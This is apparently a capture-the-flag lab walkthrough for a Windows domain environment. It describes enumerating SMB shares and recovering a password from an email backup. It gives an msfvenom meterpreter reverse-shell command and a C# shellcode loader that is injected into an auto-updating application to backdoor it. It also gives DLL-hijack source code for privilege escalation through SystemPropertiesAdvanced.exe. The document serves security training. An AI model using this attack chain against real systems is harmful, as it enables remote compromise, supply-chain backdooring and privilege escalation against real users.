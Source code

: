 # Noble Craft Solution 

## jdoePassword

- If you did a nmap scan on the 10.5.5.0/24 network, you would find 445 open on 10.5.5.10
    - This is the DC dc-enterprise.local
- Run smbmap -L -H 10.5.5.10 to see what share drives available
- Notice you see a IT folder that is read only and Updates folder that is not accessible
- If you go into the IT folder, you see there are multiple folders but the one you're looking for is Email Backup
- There's a compressed backup of all of the emails on the server
    - Backup.zip
- Unpack, and go into the Data/jdoe/{random letter and number}/{guid}.eml
- cat the file and at the bottom, you'll see the base64 encoded .txt file
- echo the base64 string into a file then decode the file
    - echo "<base64 string>" > file.b64
    - base64 -d file.b64 > file.txt
- cat out the file to find the password
- This is the first flag and leverage into the Updates share

## Automatic Updates

- Going back to the IT share, there's a folder called "Under Development"
- Open the folder and notice there's another folder called "Quick_AD"
    - This is a project that kbuckley is currently working on
- Open the directory, move into Form1.cs
- There's a thread that kicks off when Form1 is loaded
    - It runs the method UpdateThread
    - This looks for any updates and applies them
- Also notice there's an URL: http://enterprise-dc.local/updates/text.xml
    - If you visit this, you'll see how to update the program using this XML
- The XML file is in the Updates share drive and you are able to use your new jdoe credential to edit this file
- With everything laid out, these are the steps to get the user token:
    - Create a C# payload using msfvenom
      - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=4444 -f charp`
      - Make sure to note this. You will make a metasploit handler/listener with this information later.
    - Copy the shellcode and place it into the Quick_AD program inside Form1.cs
    - Here's a template of how the shellcode should be executed
    - PLEASE NOTE: You do have to add two includes:
      - ```C#
        using System.IO;
        using System.Runtime.InteropServices;
        ```
      - ```C#
      	[DllImport("kernel32")]
		static extern IntPtr VirtualAlloc(IntPtr ptr, IntPtr size, IntPtr type, IntPtr mode);

		[UnmanagedFunctionPointer(CallingConvention.StdCall)]
		delegate void WindowsRun();
    		
    	public run()
    	{
    		payload = new byte[] { ENTER SHELLCODE };
    		
			IntPtr ptr = VirtualAlloc(IntPtr.Zero, (IntPtr)payload.Length, (IntPtr)0x1000, (IntPtr)0x40);
			Marshal.Copy(payload, 0, ptr, payload.Length);
			WindowsRun r = (WindowsRun) Marshal.GetDelegateForFunctionPointer(ptr, typeof(WindowsRun));
			r();
			return;
	    }
        ```
        - You should place the method run() into the Form1_Load() method.
    - Copy the .nuget directory and place it in the root of the current user directory
      - C:\Users\User\
    - Go to the file Quick_AD.csproj
    - Increment the last number in the Version, AssemblyVersion and FileVersion
        - 1.0.0.19
    - Build the application
        - Note: there's an example build ps1 file that can really help you out.
        - It's located in the root of Quick_AD called build.ps1
            - dotnet build —configuration Release
        - Zip the files Quick_AD.exe and Quick_AD.dll as Release.zip
        - You might also want to use the Windows box to build this application
    - Mount the Updates share drive
        - This is C:\inetpub\wwwroot\updates\ directory on the Windows machine
    - Move Release.zip into the share, replacing the other Release.zip
    - Edit the test.xml file's Version number to match the Version number you set previously
        - In this case, 1.0.0.19
    - Save the file and wait
        - The thread is on a 30 second timer
        - Depending on where the timer is, you would have to wait but the max amount of time is 30 seconds
    - Set up the listener that you set up for the created Metasploit payload
    - Get a shell, move to C:\Users\kbuckley\Desktop
    - The token is in user.txt

## Privilege Escalation

- In order to get root, we're going to use some LOLBIN and a ProxyDLL
    - SystemPropertiesAdvanced.exe
- Make a new dll file called srrstr.dll
    - Create a c file, srrstr.c
    
    ```c
    #include <windows.h>
    BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved)
    {
    	switch(dwReason)
    	{
    		case DLL_PROCESS_ATTACH:
    			WinExec("C:\\Users\\kbuckley\\exploit.exe", 0);
    			break;
    		case DLL_PROCESS_DETACH:
    			break;
    		case DLL_THREAD_ATTACH:
    			break;
    		case DLL_THREAD_DETACH:
    			break;
    		
    	}
    	return 0;
    }
    ```
    - Compile this dll on the Windows box and save as srrstr.dll
      - To compile, on the Windows box, go to Start and navigate to the Visual Studio 2019
      - Click on "Developer Command Prompt for VS 2019"
      - Navigate to the location of your C code
      - use the command: 
        ```
        cl /LD srrstr.c
        ```
- Copy the file into C:\Program Files\dotnet
- Admin is on a 5 minute schedule running SystemPropertiesAdvanced.exe
  - You can test this on the Windows box **NOTE NOT NEEDED TO COMPLETE THE LAB**
  - Copy a test dll file into the dotnet directory on the Windows box
  - Open procmon
  - Put on a filter on the process SystemPropertiesAdvanced.exe
  - Scroll down to find the event CREATE FILE and find the reference to srrstr.dll
  - Notice that it looks into different dir's
    - C:\Windows
    - C:\Users\<user that ran the exe>\AppData\Microsoft\MicrosoftApps
    - C:\Program Files\dotnet
- Move the directory into C:\Users\Administrator\Desktop
- The token is in root.txt
